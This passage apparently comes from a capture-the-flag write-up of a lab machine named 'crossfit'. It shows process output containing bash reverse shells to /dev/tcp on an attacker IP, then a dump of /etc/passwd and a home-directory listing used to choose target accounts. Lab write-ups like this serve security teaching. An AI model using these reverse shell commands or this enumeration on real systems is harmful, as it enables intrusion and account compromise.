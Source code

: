 ```text
www-data 21226  0.0  0.0   7060  3464 pts/0    Ss+  Mar20   0:00 /bin/bash
www-data 32120  0.0  0.0   2388   752 ?        S    17:35   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.1
www-data 32126  0.0  0.0   3736  2908 ?        S    17:35   0:00 bash -c bash -i >& /dev/tcp/10.10.14.22
www-data 32128  0.0  0.0   3868  3220 ?        S    17:35   0:00 bash -i
```

Hmm...`ps` showed that this was a busy machine...  It looked like I had company \(only one of those shells is mine!\).

```bash
www-data@crossfit:/run$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
isaac:x:1000:1000:,,,:/home/isaac:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:107:114:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:108:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
vsftpd:x:1002:1002::/var/vsftpd:/bin/false
Debian-exim:x:109:117::/var/spool/exim4:/usr/sbin/nologin
ftpadm:x:1003:1004::/srv/ftp:/usr/sbin/nologin
hank:x:1004:1006::/home/hank:/bin/bash
```

I inspected `/etc/passwd` for local user accounts and found that `root`, `isaac`, and `hank` could login with a shell.  These were my most likely targets.

```text
www-data@crossfit:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Sep 21 04:00 .
drwxr-xr-x 18 root  root  4096 Sep  2  2020 ..
drwxr-xr-x  6 hank  hank  4096 Mar 20 17:24 hank
drwxr-xr-x  8 isaac isaac 4096 Mar 21 07:19 isaac
```
